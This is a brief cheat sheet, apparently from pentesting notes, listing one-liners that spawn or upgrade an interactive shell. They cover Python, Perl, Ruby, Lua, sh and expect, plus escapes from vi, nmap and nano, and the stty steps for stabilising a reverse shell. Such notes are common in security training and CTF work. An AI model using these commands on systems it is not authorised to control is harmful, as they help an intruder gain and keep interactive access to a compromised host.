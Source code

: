 #### Python
-----
```echo os.system("/bin/bash")```

```python -c 'import pty; pty.spawn("/bin/bash")'```


#### Perl
```perl -e 'exec "/bin/sh";'```

```exec "/bin/sh"```


#### Ruby
```exec "/bin/sh"```


#### LUA
```os.execute("/bin/sh")```


#### sh
```/bin/sh -i```


#### Vi
```:!bash```

```:set shell=/bin/bash:shell```


#### nmap
```!sh```


#### nano
```ctrl+r ctrl+x /bin/bash```


#### stty (fixed)
*In reverse shell:*

```python -c 'import pty;pty.spawn("/bin/bash")'```

*ctrl+z (to background)*

*In base OS:*

```stty raw -echo```

```reset```

```export SHELL=bash```

```export TERM=xterm-256color```

```stty rows <num> columns <cols>```


#### expect
*cat sh.exp*

```#!/usr/bin/expect```

```spawn sh```

```interact```

